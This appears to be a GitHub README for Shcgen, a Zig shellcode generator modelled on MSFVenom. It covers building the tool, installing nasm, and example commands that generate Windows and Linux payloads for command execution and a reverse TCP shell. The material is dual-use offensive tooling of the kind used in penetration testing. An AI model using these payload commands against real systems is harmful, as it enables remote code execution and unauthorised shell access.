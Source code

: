 # Shcgen

A shellcode generator written in Zig, inspired by MSFVenom.  

## Install

Download from [releases](/releases) page.

## Build

We can also use build & use it from source.  
It's required that you've already installed `zig` in your system.

```sh
git clone https://github.com/hideckies/shcgen
cd shcgen
zig build --release=small
./zig-out/bin/shcgen --help
```

## Prerequisites

Before using `shcgen`, you need to have the following installed:

- `nasm`

To install them, run the following:

```sh
# Debian/Ubuntu
sudp apt install nasm

# CentOS/Fedora
sudo yum install nasm

# macOS
brew install nasm
```

For Windows, download from [NASM official release page](https://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D).

## How To Use

### Generate Windows Payloads

```sh
# Example 1. Execute arbitrary command
shcgen -p windows/x64/exec --cmd calc -f raw -o /tmp/shellcode.bin

# Example 2. Reverse Shell
shcgen -p windows/x64/shell_reverse_tcp --lhost 127.0.0.1 --lport 4444 -f raw -o /tmp/shellcode.bin
```

### Generate Linux Payloads

```sh
# Example 1. Execute arbitrary command
shcgen -p linux/x64/exec --cmd /bin/sh -f hex
```

See [examples](/examples/) for more details.


